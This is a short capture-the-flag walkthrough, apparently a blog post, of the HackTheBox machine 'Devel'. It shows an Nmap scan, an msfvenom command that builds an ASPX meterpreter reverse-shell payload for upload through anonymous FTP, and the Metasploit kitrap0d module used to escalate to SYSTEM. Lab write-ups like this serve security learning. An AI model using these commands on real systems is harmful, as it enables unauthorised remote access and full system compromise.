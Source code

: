 ```yaml
---
layout: post
title:  "HackTheBox :: Devel"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```



# Nmap scan
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
```

# Exploitation
As the first scan shows, ftp is open and the web server is hosting the files put into ftp. We can create a aspx payload with msfvenom and upload that to test for a shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<X> LPORT=<X> -f aspx -o fml.aspx
```
Our metasploit handler returns a shell. Backgrounding the session allows us to take advantage of metasploits local_exploit/suggestor. Running this module returns some available modules that may work to get higher privileges.
```
use exploit/windows/local/ms10_015_kitrap0d
```
Running this module on the backgrounded session elevates us to SYSYEM


